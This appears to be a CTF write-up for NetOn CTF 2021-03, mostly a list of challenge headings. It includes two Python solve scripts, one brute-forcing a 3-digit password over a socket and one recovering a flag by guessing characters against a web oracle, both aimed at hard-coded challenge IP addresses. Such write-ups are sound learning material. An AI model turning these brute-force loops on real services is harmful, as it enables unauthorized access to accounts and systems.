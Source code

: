 # NetOn CTF 2021-03

I was excited to participate in my first ever CTF and enjoyed the experienced very much. Thanks to all of those involved in setting it up! ~<3

There were a total of 9 categories with 43 questions combined.

CTF Rules:

![](CTF Rules.png)

Final Top 10:

![](CTF Top 10.png)

## Pwn Category

### Limited - 499

![](Pwn - Limited.png)

```
#!/usr/bin/env python3

# Imports
from pwn import *

# Connect parameters
host = "167.99.129.209"
port = 10002

pwd = 0
while pwd < 1000:
	# Open connection
	s = remote(host, port)
	s.recvuntil("\n")
	# Loop over given tries (re-connect afterwards)
	for j in range(3):
		# Increment trial 3-digit password and send
		pwd += 1
		s.sendline(str(pwd))
		# Get return
		rstr = s.recvuntil("\n", drop=True).decode("latin-1")
		print(rstr)
		s.recvuntil("\n")
		# Check return string
		if rstr[0] != 'S':
			print(rstr)
			pwd += 1000
		# Visual check of progress
		if pwd % 100 == 0:
			print(pwd)
	# Close connection
	s.close()
```

Although the password is randomised (as could be deduced from the provided ELF), a 3-digit password can be easily brute-forced. So to no surprise, at some point this script got lucky and got returned:

```
Nice! The flag is NETON{N1c3_ByP4sS_My_Fr13eND!}
```

I'm not sure whether this counts as a bypass... but hey, it worked. : )

## Web Category

### Welcome to FilterLand - 208

### Picnicnic - 222

![](Web - Picnicnic.png)



### Let me in! - 245

![](Web - Let me in!.png)



### Grades - 486

## Stego Category

### Jungle Meeting - 50

### Seeing blurry - UNSOLVED (50)

### Winter - 218

### Step by step - UNSOLVED (250)

### Invisibility - UNSOLVED (500)

## OSINT Category

### Caesar's Secret - 163

### Caputure The Flag - 436

## Crypto Category

### PawN PawN - 188

### Weak xor - 239

### BritishScientific - 242

### Facts Br0! - 244

### Not Morse - UNSOLVED (249)

### RSA... no primEs, no problEm - 500

## Coding Category

### Run Run Run - 215

### Step by step - 239

![](Coding - Step by step.png)

```
#!/usr/bin/env python

# Imports
import requests

# All ASCII characters
chrs = [chr(i) for i in range(256)]
# All characters that returned 'getting closer'
chrs = '0134:ABCDEFGLNOSTU_abcdefghilmnorstuv{}' 

#  Trial flag
flag = "S"

i = 0
while i<len(chrs):
	# Create new flag to try
	new_flag = chrs[i] + flag 
	# Push the flag to the website
	push = requests.post("http://167.99.129.209:7788/index.php",data={'flag':new_flag})
	# Check return html
	pt = push.text[50:80]
	# Check for return
	print new_flag, pt
	if pt[0] == 'H':
		flag = new_flag
		i = 0
		print flag
	elif pt[0] == 'S':
		i += 1
	else:
		print 'Found it?:', flag
		break

# Print found result
print flag
```

With some trial and error I managed to get back

```
SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3,
```

which, submitted as NETON{*}, turned out to be correct. : )



### SecretMessage - 247

## Forensics Category

### Infiltration - 183

### Picasso01 - 225

### Lost in Lab - 479

## Reversing Category

### File Bomb - UNSOLVED (475)

## Misc Category

### Inception - 183

### Photogra.fy - 227

### Kasiski the magician - UNSOLVED (235)

### MathTomata - 245

### Gotta catch em flag - 248

